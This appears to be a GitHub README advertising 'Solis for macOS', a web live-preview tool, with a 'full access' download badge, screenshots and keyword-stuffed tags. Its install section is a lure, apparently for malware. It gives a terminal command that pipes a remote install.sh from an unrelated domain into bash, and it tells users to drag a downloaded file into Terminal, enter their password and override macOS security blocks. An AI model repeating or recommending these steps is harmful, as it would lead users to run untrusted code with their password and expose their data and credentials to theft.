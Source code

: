 <p align="center">
  <img src="https://i.ibb.co/TxpnpbdB/1684334864-icon.webp" width="350" alt="Solis macOS Banner" />
</p>

<h1 align="center">Solis for macOS</h1>

<p align="center">
  🧪 Real-time live preview tool for HTML, CSS, and more. See your changes instantly across multiple responsive views on macOS.  
  <br><br>
  ✅ Apple Silicon Optimized  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/271" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20SOLIS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Solis for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/y2H1gYY/1670150688-1.jpg" alt="Solis Live Preview Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Solis for macOS?

**Solis** is a powerful real-time preview tool for web developers and designers working on macOS. Whether you’re writing HTML, CSS, or experimenting with JS snippets, Solis allows you to instantly view your work across multiple synced windows that simulate different devices and screen sizes.

It's especially useful for responsive web design, front-end development, and interface testing without needing to refresh or manually resize multiple browsers.

---

## ✅ Why Choose Solis?

- 🖥️ **Live Preview for HTML/CSS/JS**  
- 📱 **Multiple Responsive Views at Once**  
- ⚙️ **Real-Time Synchronization**  
- 🧠 **Ideal for Web Dev & UI Workflows**  
- 🎨 **Visual Editing and Highlighting**  
- 🔄 **Instant Sync with Your Editor**  
- 🍎 **Fully Apple Silicon Compatible**  
- 🧩 **Works Seamlessly with Local Projects**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/hRvpq38D/1670150688-2.jpg" alt="Multi-device Preview UI" />
  <br><br>
  <img src="https://i.ibb.co/d46dVRQc/1670150690-3.jpg" alt="Live HTML and CSS Update Panel" />
</p>

---

## 🚀 Key Features

- Instant live preview for code changes  
- Support for multiple screen resolutions  
- Perfect for responsive design workflows  
- Drag-and-drop project setup  
- Works with external editors  
- Split view, overlay view, zoom modes  
- Lightweight and blazing fast  
- Native Apple Silicon support

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Solis manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Preview-HTML+CSS+LiveUpdate-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Solis – See Your Code Instantly

Thanks for using **Solis for macOS**.  
Code it. See it. Ship it faster.

---

## 🧭 Usage Context

Solis is made for developers and designers working on front-end projects.  
Use it offline for local file previews or integrate with editors for faster UI development.

---

## 🔍 Tags

```text
solis mac download, html css live preview tool mac, responsive website preview software macos, web design real-time editor mac, multi-device simulator macbook m1, solis app full version download mac, apple silicon live preview code tool, solis code sync responsive views, frontend testing live browser macos, instant html render tool mac, dev-friendly preview engine for mac, web ui visualizer mac utility, export and test responsive web ui mac, solis web developer companion mac, solis mac native real-time preview
